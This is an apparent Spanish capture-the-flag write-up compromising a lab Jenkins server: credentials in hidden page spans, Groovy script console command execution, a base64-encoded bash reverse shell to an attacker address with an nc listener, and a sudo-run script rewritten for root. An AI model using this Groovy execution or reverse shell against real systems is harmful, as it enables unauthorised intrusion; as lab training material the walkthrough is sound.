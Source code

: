 Fecha: 19/09/2024

Comienzo escaneando la máquina:
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](Imágenes/Pasted%20image%2020240918005959.png)

Inspeccionando la página web en el puerto 80, encuentro 3 "spans" ocultos (`class = "hidden"`). Una de ellas es, posiblemente, el "nombre de dominio" de la página: "`jenhack.hl`". Los otros dos podrían ser un nombre de usuario y contraseña. `jenkins-admin`:`cassandra` 

![](Imágenes/Pasted%20image%2020240918132733.png)

Paso ahora al puerto 443. Encuentro una pantalla de login de jenkins. Al probar con estas credenciales, me da un error de servidor, así que probaré en el puerto 8080. Obtengo acceso al panel de administración: 

![](Imágenes/Pasted%20image%2020240918132901.png)

Investigando en [hacktricks](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security), encuentro varios trucos que puedo hacer:

Buscar más usuarios entrando en `/asynchPeople/` -> sin éxito, solo está el usuario de administración:
![](Imágenes/Pasted%20image%2020240918133231.png)

Ejecutar código remoto con un "Groovy Script", entrando en `/script`. 
![](Imágenes/Pasted%20image%2020240918133321.png)

Aquí podré ejecutar comandos de la siguiente forma:
```groovy
def process = "sh -c <comando>".execute()
println("Salida: ${process.text}")
```

En la misma página encuentro una forma de hacerme una reverse shell: 
```bash
# Obtener el base64 de lo que queremos ejecutar:
echo "bash -c 'bash -i >& /dev/tcp/172.17.0.1/9001 0>&1'" | base64 

# En la script console:
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzkwMDEgMD4mMScK}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
# En mi máquina atacante:
nc -lvnp 9001
```

Trato la TTY: 
```bash
# Empezando desde la reverse shell:
script /dev/null -c bash

Control Z 

stty raw -echo; fg

reset xterm

export TERM=xterm
```

Al no encontrar nada que hacer con permisos SUID y no poder ejecutar sudo -l por no saber la contraseña, miro /etc/passwd:
![](Imágenes/Pasted%20image%2020240918134837.png)

Aquí encuentro un usuario, jenkhack. Miraré que ficheros cuyos nombres le hagan referencia: 
```bash
find / -name "jenkhack" 2>/dev/null
```

![](Imágenes/Pasted%20image%2020240919130322.png)

Parece un usuario y contraseña. Como la contraseña no funciona, imagino que está cifrada. Utilizo el identificador de cifrado de [dcode.fr](https://www.dcode.fr/identificador-cifrado) y encuentro que se trata de un "ASCII85 Encoding"

![](Imágenes/Pasted%20image%2020240919130714.png)

Uso su decoder y el resultado es `jenkinselmejor`. Una vez inicié sesión como jenkhack, comprobé sus permisos:
![](Imágenes/Pasted%20image%2020240919131110.png)

Pensé que con hacer `sudo /usr/local/bin/bash` ya estaría, pero resulta que no es un bash sino un script. 

![](Imágenes/Pasted%20image%2020240919131216.png)

Miro el contenido del script y encuentro esto:
![](Imágenes/Pasted%20image%2020240919131243.png)

Elimino ese fichero y creo uno nuevo para que me ejecute una shell. 


![](Imágenes/Pasted%20image%2020240919132123.png)

Tras darle permisos y ejecutar el script con sudo, ya somos root. 

![](Imágenes/Pasted%20image%2020240919132054.png)